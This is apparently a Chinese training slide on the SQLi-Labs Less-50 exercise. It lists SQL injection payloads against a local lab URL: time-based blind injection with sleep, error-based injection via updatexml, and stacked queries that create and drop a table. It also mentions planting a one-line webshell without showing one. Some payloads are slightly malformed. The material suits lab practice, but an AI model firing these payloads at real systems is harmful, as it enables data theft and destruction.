

# Less-50_02
1.基于时间的盲注
http://127.0.0.1/sqli/Less-50/?sort=1 and if ( (length(database()>1) ,1, sleep(5) )-+
2.基于报错往入:
http://127.0.0.1/sqli/Less-50/?sort=1 and updatexml( 1, concat(0x7e, (database()) ) ,1) -+
3.写一句话木马(这里不再进行演示)
4.使用迭代注入创建删除一个表:
http://127.0.0.1/sqli/Less 50/?sort=1; create table crow like users; +
http://127.0.0.1/sqli/Less -50/?sort=1; drop table crow;-+
5.使用对叠注入写一句话木马(这里不再进行演示)
当然方法不局限于这么多，还有其他的方法请大家自行挖掘。